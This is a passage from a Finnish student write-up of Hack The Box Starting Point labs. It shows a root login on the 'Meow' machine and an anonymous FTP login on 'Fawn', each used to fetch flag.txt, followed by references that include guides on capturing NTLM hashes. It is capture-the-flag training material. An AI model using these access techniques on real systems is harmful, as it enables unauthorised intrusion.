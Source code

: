 ```bash
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.218.41
  IPv6 address for eth0: dead:beef::250:56ff:fe94:157c

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# 
```

```bash
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
```

#### Tier 0 Fawn

FTP = file tranfer protocol ja käyttää defaulttina porttia 21 [^5]. SFTP on saltumpi protokolla [^5]

Jälleen tehtävä johdatteli hyvin suoraa 

```bash
┌──(parallels㉿kali-linux-2024-2)-[~]
└─$ ftp 10.129.238.56                                                                     
Connected to 10.129.238.56.
220 (vsFTPd 3.0.3)
Name (10.129.238.56:parallels): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||50332|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||17144|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*************************************************************|    32      440.14 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.87 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||28226|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
```

[^1]: Tero Karvinen. Tunkeutumistestaus: https://terokarvinen.com/tunkeutumistestaus/
[^2]: Hack the Box. Hack The Box FAQs: HOW TO CONNECT TO VPN: https://www.youtube.com/watch?v=LMCKbR_wWds
[^3]: Using telnet: https://support.ricoh.com/bb_v1oi/pub_e/oi_view/0001038/0001038625/view/network/unv/0029.htm
[^4]: Hack the Box: Learn the basics of Penetration Testing - Starting point: https://app.hackthebox.com/starting-point 
[^5]: Wikipedia. FTP: https://en.wikipedia.org/wiki/FTP
[^6]: Wikipedia. Server Message Block: https://en.wikipedia.org/wiki/Server_Message_Block
[^7]: Stack Overflow. SMB Client Commands Through Shell Script: https://stackoverflow.com/questions/28698694/smb-client-commands-through-shell-script
[^8]: nmap.org. A Quick Port Scanning Tutorial: https://nmap.org/book/port-scanning-tutorial.html
[^9]: Redis. Getting Started: https://redis.io/learn/howtos/quick-start 
[^10]: Carla Ferreira. Hack The Box — Starting Point “Responder” Solution: https://medium.com/rakulee/hack-the-box-starting-point-responder-solution-d0fa2ea77a56
[^11]: Wikipedia. NTLM https://en.wikipedia.org/wiki/NTLM
[^12]: 0xdf hacks stuff. Getting Creds via NTLMv2: https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html
[^13]: narrowtomato. Using Responder To Grab NetNTLMv2: https://narrowtomato.github.io/guides/responder_ntlm.html
[^14]: GetCyber. Responder – Hack The Box // Walkthrough & Solution // Kali Linux: https://www.youtube.com/watch?v=wq-najIgsRU
[^15]: Tero Karvinen. Start Your Research with a Review Article: https://terokarvinen.com/review-article/
[^16]: Kumaresan Durvas Jayaraman, Dr. Shubha Goel. ADVANCEMENTS IN AUTHENTICATION MECHANISMS USING OAUTH 2.0 AND SAML: https://www.researchgate.net/profile/Kumaresan-Durvas-Jayaraman/publication/390172665_ADVANCEMENTS_IN_AUTHENTICATION_MECHANISMS_USING_OAUTH_20_AND_SAML/links/67e324bb72f7f37c3e8d9210/ADVANCEMENTS-IN-AUTHENTICATION-MECHANISMS-USING-OAUTH-20-AND-SAML.pdf